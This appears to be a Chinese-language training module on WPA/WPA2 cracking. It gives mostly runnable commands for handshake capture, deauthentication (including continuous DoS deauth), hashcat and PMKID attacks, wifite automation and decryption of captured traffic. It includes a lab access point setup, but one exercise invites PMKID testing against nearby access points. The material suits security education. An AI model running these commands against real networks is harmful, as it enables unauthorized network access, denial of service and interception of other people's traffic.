


# 模块04：WPA/WPA2破解

> **学习目标**：掌握4次握手原理、捕获和破解WPA2-PSK握手包
> **所需工具**：airmon-ng, airodump-ng, aireplay-ng, aircrack-ng, hashcat, hcxdumptool, hcxtools, wifite, airdecap-ng

## 目录

- [[#一、4次握手原理|4次握手原理]]
- [[#二、握手捕获|握手捕获]]
- [[#三、密码破解|密码破解]]
- [[#四、PMKID攻击|PMKID攻击]]
- [[#五、wifite自动化|wifite自动化]]
- [[#六、流量解密|流量解密]]
- [[#七、字典策略|字典策略]]
- [[#八、实践操作|实践操作]]

---

## 一、4次握手原理

### 1.1 密钥层次结构

```
                PSK (预共享密钥) = WiFi密码
                        │ PBKDF2-HMAC-SHA1(salt=SSID, 4096轮)
                        v
                PMK (成对主密钥)
                        │ PRF(PMK, ANonce, SNonce, AP_MAC, STA_MAC)
                        v
                PTK (成对临时密钥)
                        │
        ┌───────┬───────┼───────┬───────┐
        v       v       v       v
       KCK     KEK      TK    MIC Key
     认证密钥 加密密钥 临时密钥
```

### 1.2 4次握手详细过程



### 1.3 攻击原理

捕获到的4次握手包含以下明文信息：
- ANonce (明文)
- SNonce (明文)
- AP_MAC (明文)
- STA_MAC (明文)
- MIC (第2帧或第4帧中)
- PMK (不知道，需要破解)

攻击方式：
```
遍历字典每个候选密码 → 计算PMK → 计算PTK
→ 用计算出的KCK验证MIC → MIC匹配 = 密码正确！
```

关键计算瓶颈：`PMK = PBKDF2(passphrase, SSID, 4096轮)` — 这个步骤最慢！

这就是为什么WPA破解对GPU速度要求极高：
- CPU每秒只能测试几千个密码
- GPU可以大幅加速(AES指令集 + 大规模并行)

---

## 二、握手捕获

### 2.1 两种策略



### 2.2 策略1：被动等待(完全静默)

```bash
sudo airmon-ng check kill
sudo airmon-ng start wlan0
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa_handshake wlan0mon
```

等待右上角出现：`[ WPA handshake: AA:BB:CC:DD:EE:FF ]` — 出现即成功！

### 2.3 策略2：Deauthentication攻击(主动获取)

原理：Deauth帧是802.11管理帧(WPA2下未加密)，可以被伪造。

```bash
# 方法A：定向Deauth(指定客户端)
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CLIENT_MAC wlan0mon

# 方法B：广播Deauth(所有客户端)
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF wlan0mon

# 方法C：连续Deauth(DoS攻击，慎用)
sudo aireplay-ng -0 0 -a AA:BB:CC:DD:EE:FF wlan0mon
```

参数说明：
- `-0`：Deauthentication攻击
- `5`：发送5个Deauth包
- `-a`：AP的MAC地址
- `-c`：目标客户端MAC(省略则广播)

完整操作示例：
```bash
# 终端1：定向监听
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa_handshake wlan0mon

# 终端2：发送Deauth
sudo aireplay-ng -0 5 -a AA:BB:CC:DD:EE:FF -c CLIENT_MAC wlan0mon
```

### 2.4 确认握手质量

用aircrack-ng验证：
```bash
aircrack-ng wpa_handshake-01.cap
```
输出中应显示 `#1 handshake` 的信息。

---

## 三、密码破解

### 3.1 aircrack-ng(CPU破解)

```bash
aircrack-ng -w /usr/share/wordlists/rockyou wpa_handshake-01.cap
```

参数详解：
- `-w <wordlist>`：指定密码字典
- `-e <ESSID>`：指定目标(如果cap文件包含多个AP)
- `-b <BSSID>`：指定目标MAC

CPU速度参考：
- 普通笔记本：500-3000 k/s
- 高端CPU(16核+)：5000-10000 k/s

### 3.2 hashcat(GPU加速破解，推荐)

hashcat是目前最快的WPA破解工具，GPU比CPU快50-100倍！

**Step 1**：将cap文件转换为hashcat格式
```bash
# 新版hcxtools(推荐)
hcxpcapngtool wpa_handshake-01.cap -o hash.hc22000

# 批量转换
hcxpcapngtool *.cap -o all_hashes.hc22000
```

**Step 2**：使用hashcat破解
```bash
# 基础字典攻击
hashcat -m 22000 hash.hc22000 rockyou.txt

# 规则攻击(字典+变换规则)
hashcat -m 22000 hash.hc22000 rockyou.txt -r best64.rule

# 掩码攻击(暴力破解已知格式)
hashcat -m 22000 -a 3 hash.hc22000 ?d?d?d?d?d?d?d?d

# 组合攻击(字典组合)
hashcat -m 22000 -a 1 hash.hc22000 dict1.txt dict2.txt
```

hashcat参数速查：
| 参数 | 说明 |
|------|------|
| -m 22000 | WPA-PBKDF2-PMKID+EAPOL (新版统一) |
| -a 0 | 字典攻击 (Straight) |
| -a 1 | 组合攻击 (Combination) |
| -a 3 | 掩码暴力破解 (Mask Attack) |
| -w 4 | 工作负载配置(1轻~4重) |
| -O | 优化内核(限制密码长度) |
| --show | 显示已破解结果 |

```bash
# 查看可用GPU
hashcat -I
```

GPU速度参考：
- NVIDIA RTX 3080：约 600-800 kH/s
- NVIDIA RTX 4090：约 1200-1500 kH/s
- CPU (16核)：仅 10-20 kH/s

---

## 四、PMKID攻击

### 4.1 PMKID攻击原理

2018年8月，hashcat作者Jens "atom" Steube发现的新攻击方式。

传统WPA2破解需要4次握手中的全部4帧(需要客户端存在)。
PMKID攻击只需要AP与攻击者的单次交互！无需客户端！

- PMKID = HMAC-SHA1-128(PMK, "PMK Name" || AP_MAC || STA_MAC)
- 存在于AP发送的第1帧(EAPOL帧)的可选字段中
- 许多现代路由器默认包含PMKID
- 攻击者只需关联请求即可触发AP发送PMKID

### 4.2 hcxdumptool捕获PMKID

```bash
# 全信道捕获
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1 --filtermode=2

# 针对特定目标
sudo hcxdumptool -i wlan0mon -o capture.pcapng --enable_status=1 --bssid=AA:BB:CC:DD:EE:FF --filtermode=2
```

参数详解：
- `-i wlan0mon`：监听接口
- `-o capture.pcapng`：输出文件(必须是.pcapng格式)
- `--enable_status=1`：显示状态信息
- `--filtermode=2`：过滤模式(2=仅AP)
- `-c <信道>`：指定信道(不指定=全信道扫描)

关键输出标识：
- `[PMKID FOUND]`：成功获取PMKID！无需任何客户端
- `[EAPOL M1M2]`：获取到4次握手的第1、2帧
- `[EAPOL M3M4]`：获取到第3、4帧
- `[EAPOL 4/4]`：完整4次握手

### 4.3 hcxtools提取哈希

```bash
# 从pcapng提取hashcat格式
hcxpcapngtool capture.pcapng -o hash.hc22000

# 仅提取PMKID
hcxpcapngtool capture.pcapng -o hash.hc22000 --pmkid=1
```

### 4.4 PMKID vs 传统握手

| 特性 | PMKID攻击 | 传统EAPOL握手攻击 |
|------|-----------|-------------------|
| 需要客户端 | 不需要 | 需要 |
| 需要Deauth | 不需要 | 通常需要 |
| 隐蔽性 | 高(仅发送关联请求) | 低(Deauth可被检测) |
| 支持路由器 | 约70-80%的路由器 | 所有WPA2路由器 |

---

## 五、wifite自动化

### 5.1 一键WPA破解

```bash
sudo wifite --wpa
```

交互流程：
1. 自动进入监听模式
2. 扫描所有WPA网络
3. 按信号强度排序显示
4. 用户选择目标(数字键)，可多选
5. 自动捕获握手(等待或Deauth)
6. 自动使用字典破解
7. 显示结果

### 5.2 高级用法

```bash
# 使用指定字典
sudo wifite --wpa --dict /path/to/wordlist

# 启用PMKID攻击
sudo wifite --pmkid

# 组合WPA和PMKID攻击
sudo wifite --wpa --pmkid --dict rockyou.txt

# 指定目标
sudo wifite --wpa -b AA:BB:CC:DD:EE:FF -c 6

# 最小信号强度阈值
sudo wifite --wpa -pwr -50
```

---

## 六、流量解密

### 6.1 airdecap-ng解密捕获的WPA流量

有了密码后，可以解密之前捕获的加密流量：

```bash
airdecap-ng -e TargetWiFi -p password123 wpa2_capture-01.cap
```

参数：
- `-e <SSID>`：网络名称
- `-p <password>`：WiFi密码

输出：`wpa2_capture-01-dec.cap` (解密后的文件，可在Wireshark分析)

```bash
wireshark wpa2_capture-01-dec.cap
# 现在可以看到解密后的IP/TCP/UDP等高层协议数据
```

---

## 七、字典策略

### 7.1 字典来源

内置字典(常见)：
- `/usr/share/wordlists/rockyou` (约1400万条，最常用)
- `/usr/share/wordlists/fasttrack` (精简版)

生成自定义字典：
```bash
# crunch - 按模式生成
crunch 8 12 1234567890 -o num.txt

# cewl - 从网站提取关键词
cewl http://target.com -w words.txt

# john the ripper - 从已有密码变异
john --wordlist=base.txt --rules --stdout > expanded.txt
```

### 7.2 字典优化策略

- 了解目标网络命名习惯(如公司名+数字)
- 路由器默认密码模式(如 TP-Link_XXXX)
- 常见密码模式组合(地名+年份, 姓名+生日)
- 使用规则扩展字典(hashcat rules)

---

## 八、实践操作

### 8.1 搭建WPA2测试AP

```bash
cat > /tmp/hostapd_wpa2.conf << 'EOF'
interface=wlan1
driver=nl80211
ssid=WPA2_Test_Lab
hw_mode=g
channel=6
wpa=2
wpa_passphrase=password123
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
EOF
sudo hostapd /tmp/hostapd_wpa2.conf
```

### 8.2 完整WPA2破解流程

```bash
# Step 1: 监听模式
sudo airmon-ng check kill
sudo airmon-ng start wlan0

# Step 2: 发现目标
sudo airodump-ng wlan0mon
# 记录目标BSSID和信道

# Step 3: 定向捕获(终端1)
sudo airodump-ng -c 6 --bssid AA:BB:CC:DD:EE:FF -w wpa2_capture wlan0mon

# Step 4: Deauth获取握手(终端2)
sudo aireplay-ng -0 10 -a AA:BB:CC:DD:EE:FF -c CLIENT_MAC wlan0mon
# 观察终端1上方出现 "WPA handshake"

# Step 5: 用hashcat破解
hcxpcapngtool wpa2_capture-01.cap -o hash.hc22000
hashcat -m 22000 hash.hc22000 /usr/share/wordlists/rockyou

# Step 6: 查看结果
hashcat -m 22000 --show hash.hc22000

# Step 7: 解密流量(可选)
airdecap-ng -e TargetWiFi -p PASSWORD wpa2_capture-01.cap
```

### 8.3 PMKID实战

```bash
# 使用hcxdumptool捕获PMKID
sudo hcxdumptool -i wlan0mon -o pmkid_test.pcapng --enable_status=1 --filtermode=2

# 提取哈希并破解
hcxpcapngtool pmkid_test.pcapng -o pmkid_hash.hc22000
hashcat -m 22000 pmkid_hash.hc22000 rockyou.txt
```

### 8.4 GPU加速破解对比

```bash
# 确认GPU可用
hashcat -I

# 字典攻击
hashcat -m 22000 -w 4 hash.hc22000 rockyou.txt

# 字典+规则
hashcat -m 22000 hash.hc22000 rockyou.txt -r /usr/share/hashcat/rules/best64.rule

# 掩码攻击(8位数字)
hashcat -m 22000 -a 3 hash.hc22000 ?d?d?d?d?d?d?d?d
```

---

## 课后练习

1. 画出WPA2 4次握手的状态转换图，标注每帧的内容
2. 使用Wireshark分析完整的4次握手pcap文件，定位每帧
3. 对比不同工具的破解速度(aircrack-ng vs hashcat)
4. 在自己搭建的测试环境中完成完整WPA2破解流程
5. 尝试PMKID攻击，测试你周边哪些AP支持
6. 使用airdecap-ng解密你成功破解网络的流量
7. 研究hashcat规则文件，尝试创建自定义规则

---

> **相关模块**：[[02-无线侦察与扫描|无线侦察]] | [[05-WPS攻击|WPS攻击]] | [[06-企业无线攻击与Rogue AP|企业攻击]]

[[../总目录与快速查询|← 返回总目录]]
